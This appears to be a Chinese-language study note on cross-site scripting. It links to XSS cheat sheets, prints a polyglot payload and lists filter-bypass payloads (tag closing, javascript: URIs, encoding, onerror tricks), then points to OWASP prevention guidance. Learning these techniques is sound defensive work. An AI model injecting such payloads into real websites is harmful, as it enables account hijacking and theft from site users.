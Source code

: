 

一些速查表：

* [Cross-site scripting (XSS) cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
* [xss-payload-list]( https://github.com/payloadbox/xss-payload-list )
* [XSS Filter Evasion Cheat Sheet]( https://owasp.org/www-community/xss-filter-evasion-cheatsheet )



#### Awesome XSS Polyglot

XSS Polyglot也可以说是XSS通用攻击payload吧，它由不同语言的元素构成，能注入多种不同的上下文。

一个例子：from: https://github.com/s0md3v/AwesomeXSS#awesome-polyglots 

```javascript
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert()//'">`
```

解释：

![image-20200504162932559](/images/image-20200504162932559.png)



#### 常见的绕过方法

* 闭合标签：` “><script>alert(1);</script>`
* 利用html标签的属性值：`<img src="javascript:alert(1);">`
* 空格/tab/回车:`<img src="java    script:alert(1);" >`
* 字符编码：`%c1;alert(1);//`
* 圆括号过滤：`<a onmouseover="javascript:window.onerror=alert;throw 1">`
* 实体解码
* 使用 十六进制、八进制、Unicode、HTML等进行编码
* Alert被过滤：使用prompt和confirm代替



### 漏洞防御

参照： https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html 



最后推荐两个xss闯关网址：
